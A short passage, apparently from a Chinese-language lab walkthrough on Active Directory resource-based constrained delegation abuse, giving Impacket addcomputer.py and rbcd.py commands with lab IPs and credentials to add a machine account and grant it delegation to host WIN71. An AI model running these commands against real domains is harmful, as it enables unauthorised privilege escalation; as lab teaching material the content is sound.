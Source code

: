 <img src="image/image-20231011165957286.png" alt="image-20231011165957286" style="zoom:80%;" />

假设这个user1是专门加域用的账户，我们通过一定手段拿到了密码，然后添加机器账号，设置ziyuanyueshu1到WIN71的RBCD

```sh
addcomputer.py -dc-ip 192.168.1.250 -computer-name 'ziyuanyueshu1$' -computer-pass ziyuanyueshu1@123 y5neko.com/user1:win71@123
#2021版本
rbcd.py -f ziyuanyueshu1 -t WIN71 -dc-ip 192.168.1.250 y5neko\\ziyuanyueshu:ziyuanyueshu\@123
#新版本
rbcd.py -delegate-to WIN71$ -delegate-from ziyuanyueshu1$ -dc-ip 192.168.1.250 y5neko/ziyuanyueshu:ziyuanyueshu@123 -action write
```

<img src="image/image-20231011172259024.png" alt="image-20231011172259024" style="zoom:80%;" />

<img src="image/image-20231011172438459.png" alt="image-20231011172438459" style="zoom:80%;" />

<img src="image/image-20231011213936700.png" alt="image-20231011213936700" style="zoom: 67%;" />
